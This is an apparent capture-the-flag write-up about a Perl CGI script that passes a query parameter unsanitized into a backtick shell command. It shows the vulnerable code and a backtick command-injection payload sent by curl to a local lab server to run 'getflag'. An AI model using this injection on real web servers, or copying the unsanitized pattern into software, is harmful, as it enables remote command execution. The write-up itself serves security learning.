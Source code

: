At the home of the user is present a .pl file :

```perl
  use CGI qw{param};
  print "Content-type: text/html\n\n";
  sub x {
    $y = $_[0];
    print `echo $y 2>&1`;
  }
  x(param("x"));
```

In Perl, CGI(Common Gateway Interface) is a protocol for executing scripts via web requests
This one is printing the first query parameter x -> $_[0] to the standard output using the built-in echo

During the substitution of the variable $y there is no sanitization
By adding "\`" i can close the backtick command and open and other one "\`"

The final payload is \`getflag\` to execute -> "`echo ` `getflag 2>&1`"

I send it with the curl command (backslash added to stop interpretation of backtick from my own shell):
curl -v http://localhost:4747/?x=\`getflag\`
